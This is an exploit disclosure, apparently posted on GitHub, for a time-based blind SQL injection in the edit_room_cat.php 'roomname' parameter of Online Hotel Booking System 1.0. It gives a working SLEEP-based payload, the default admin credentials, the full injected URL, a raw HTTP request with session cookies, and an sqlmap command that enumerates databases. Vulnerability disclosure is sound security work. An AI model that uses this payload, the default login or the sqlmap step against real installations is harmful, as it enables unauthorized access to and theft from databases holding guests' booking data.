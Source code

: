 # Online Hotel Booking System edit_room_cat.php id SQL inject

   
#### Exploit Title: Online Hotel Booking System edit_room_cat.php id SQL inject
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://projectworlds.in/free-projects/php-projects/2777-2/
#### Software Link: https://projectworlds.in/wp-content/uploads/2019/06/hotel-booking.zip
#### Version: Online Hotel Booking System 1.0
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Online Hotel Booking System does not filter the content correctly at the "edit_room_cat.php" id module, resulting in the generation of SQL injection.

#### Payload used:
`Duplex' AND (SELECT 1352 FROM (SELECT(SLEEP(5)))vGbz) AND 'zhFe'='zhFe`

#### Proof of Concept

1. Login the CMS. 
Admin Default Access:
Email: admin
Password: 12345

2. Open Page http://172.24.5.107/admin.php

3. Put SQL injection payload  (`http://172.24.5.107/admin/edit_room_cat.php?roomname=Duplex' AND (SELECT 1352 FROM (SELECT(SLEEP(5)))vGbz) AND 'zhFe'='zhFe`) in the id content and click on Enter to publish the page,Viewing the successfully sleep 5 seconds.
![image](https://user-images.githubusercontent.com/60683449/176632763-5e8e79be-b158-4b48-819e-5e20e446566d.png)

4. Html Request Code
```GET /admin/edit_room_cat.php?roomname=Duplex HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Cookie: PHPSESSID=i91fftap2j41ojamv49897fe27; ci_session=3eug5e2ddfbg0kf7vmme4m13g3n76evs
Host: 172.24.5.107
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) 
```
5. sqlmap data:
python3 sqlmap.py -r test.txt --dbs
![image](https://user-images.githubusercontent.com/60683449/176632778-25a1730f-f37b-4560-ac6b-45d3384ff00f.png)

